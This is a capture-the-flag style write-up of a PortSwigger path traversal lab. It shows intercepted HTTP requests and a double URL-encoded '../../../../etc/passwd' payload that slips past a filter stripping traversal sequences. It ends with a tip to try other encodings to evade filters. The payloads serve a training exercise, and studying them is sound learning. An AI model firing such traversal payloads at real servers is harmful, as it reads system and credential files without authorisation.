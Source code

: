 
---

- **Target:** Path Traversal Lab - traversal sequences stripped with superfluous URL-decode
- **Author:** sonyahack1
- **Date:** 05.05.2025

---


> The vulnerability is contained in the display of product images.
> I open any product card and open its image in a new tab

![image_url](./screenshots/image_url.png)

## Intercepting the display image request in BurpSuite

> intercepting:

```html

GET /image?filename=21.jpg HTTP/2
Host: 0adc008c04f6c0de80de62bd00620084.web-security-academy.net
Cookie: session=PitUu9iyQheAZpD7b****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0adc008c04f6c0de80de62bd00620084.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i
Te: trailers

```

> Sometimes many applications may reduce the full path in the parameter or even delete it if it starts with the sequence ```../``` or ```..\```


> I try common url-encode **../../../../etc/passwd** in **CyberChief** resource

```html

GET /image?filename=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd HTTP/2

```

> Result:

```html

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 14

"No such file"

```

> but it didn't work

> Ok. I try double url-encode **../../../../etc/passwd** in **CyberChief** also:


```html

GET /image?filename=%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd HTTP/2

```

> Result:

![passwd_file](./screenshots/passwd_file.png)

> it's work.


> **Note:** It is worth noting one thing. The encoding can be any in principle. For example, you can try with **base64**, **base58**, **Escape Unicode Characters**, **html** etc.
> The only question is what the server will be able to filter and what it will not. In this lab, **double url-encoding** of the payload worked. Double encoding can also
> be applied to other types described above.


![solver_lab](./screenshots/solved_lab.png)


